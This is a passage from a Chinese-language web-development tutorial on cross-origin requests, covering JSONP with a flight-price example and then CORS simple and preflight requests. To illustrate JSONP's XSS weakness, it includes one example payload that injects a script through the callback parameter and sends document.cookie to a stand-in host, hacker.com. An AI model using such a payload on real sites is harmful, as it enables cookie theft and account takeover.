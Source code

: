 url中传递了一个code参数，告诉服务器我要查的是CA1998次航班的信息
而callback参数则告诉服务器，我的本地回调函数叫做flightHandler，所以请把查询结果传入这个函数中进行调用

服务器会将返回的结果封装成一个 js 脚本，客户端收到后会自动解析并执行该函数，即可获得数据。服务端封装的 js 脚本如下：

```javascript
flightHandler({
    "code": "CA1998",
    "price": 1780,
    "tickets": 5
});
```

### JSONP 优缺点

优点：兼容性好，可用于解决主流浏览器的跨域问题；数据格式没发生太大变化
缺点：仅支持 get 请求；不安全，容易遭到 XSS 攻击
如果攻击者把回调函数篡改成了 script 标签， 那么当服务器返回响应的时候，后面这段恶意代码就会被执行，那么用户的隐私信息就会存在泄露的可能
`script.src="http://flightQuery.com/jsonp/flightResult.aspx?callback=<srcript>$.get("http://hacker.com?cookie="+document.cookie)</script>"`

2、CORS(跨域资源共享)
HTML5之后，引入了一个响应头
浏览器会自动进行 CORS 通信，实现 CORS 通信的关键是后端，只要后端实现了 CORS，就实现了跨域

### 简单请求

客户端发送请求时，浏览器发现这次跨源AJAX请求是简单请求，就自动在头信息之中，添加一个Origin字段（协议 + 域名）
GET /cors HTTP/1.1
Origin: `http://api.bob.com`  // 说明本次请求来自哪个源（协议 + 域名 + 端口），服务器根据这个值，决定是否同意这次请求
Host: api.alice.com
Accept-Language: en-US
Connection: keep-alive

如果服务器的 Access-Control-Allow-Origin 字段包含这个源，则服务器会返回响应，且响应头会多出几个字段
Access-Control-Allow-Origin: `http://api.bob.com` // 该字段必选。值为 "*" 表示接收所有源的请求
Access-Control-Allow-Credentials: true // 该字段可选，表示是否允许发送Cookie。
注：Access-Control-Allow-Credentials 设为 true 后，客户端需要打开 withCredentials 属性，否则，即使服务器同意发送Cookie，浏览器也不会发送。
var xhr = new XMLHttpRequest();
xhr.withCredentials = true;

当服务端设置 Access-Control-Allow-Credentials: true，且客户端设置 xhr.withCredentials = true 时，可以跨域携带 cookie

### 复杂请求(预检请求)

请求方法是 PUT 或 DELETE，或者 Content-Type 字段的类型是 application/json 则为复杂请求
复杂请求的CORS请求，会在正式通信之前，增加一次HTTP查询请求，称为"预检"请求
OPTIONS /cors HTTP/1.1                              // 预检请求的请求方法是 OPTIONS，表示询问
Origin: `http://api.bob.com`                        // 表示请求来自哪个源
Access-Control-Request-Method: PUT                  // 必选。表示浏览器的 CORS 请求会用到哪些HTTP方法
Access-Control-Request-Headers: XXX                 // 浏览器CORS请求会额外发送的头信息字段
Connection: keep-alive

服务器收到预检请求后，通过 Access-Control-Allow-Origin 决定是否同意该源的请求
HTTP/1.1 200 OK
Access-Control-Allow-Origin: `http://api.bob.com`
Access-Control-Allow-Methods: GET, POST, PUT        // 必选。表明服务器支持的所有跨域请求的方法
Access-Control-Allow-Headers: X-Custom-Header       // 如果浏览器请求包括Access-Control-Request-Headers字段，则Access-Control-Allow-Headers字段是必需的，表明服务器支持的所有头信息字段
Access-Control-Allow-Credentials：true              // 该字段与简单请求时的含义相同
Keep-Alive: timeout=2, max=100
Connection: Keep-Alive
